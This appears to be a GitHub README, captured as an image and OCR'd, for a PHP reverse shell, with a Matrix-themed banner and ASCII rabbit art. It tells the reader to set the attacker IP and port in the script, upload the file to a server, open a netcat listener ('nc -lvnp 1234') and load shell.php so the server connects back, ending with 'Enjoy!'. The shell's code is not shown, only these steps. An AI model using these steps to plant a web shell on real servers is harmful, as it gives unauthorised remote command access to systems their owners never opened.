      Trace program: running                                                                                                                                                                                

           wake up, Neo...                                                                                                                                                                                 
        the matrix has you                                                                                                                                                                                 
      follow the white rabbit.

          knock, knock, Neo.

                        (`.         ,-,
                        ` `.    ,;' /
                         `.  ,'/ .'
                          `. X /.'
                .-;--''--.._` ` (
              .'            /   `
             ,           ` '   Q '
             ,         ,   `._    \
          ,.|         '     `-.;_'
          :  . `  ;    `  ` --,.._;
           ' `    ,   )   .'
              `._ ,  '   /_
                 ; ,''-,;' ``-
                  ``-..__``--`

Chage your script - 

$ip = '127.0.0.1';  // CHANGE THIS

$port = 1234;       // CHANGE THIS

Upload to server! 

Start a listener on your machine - 

nc -lvnp 1234

Navigate to ip/shell.php

Enjoy!
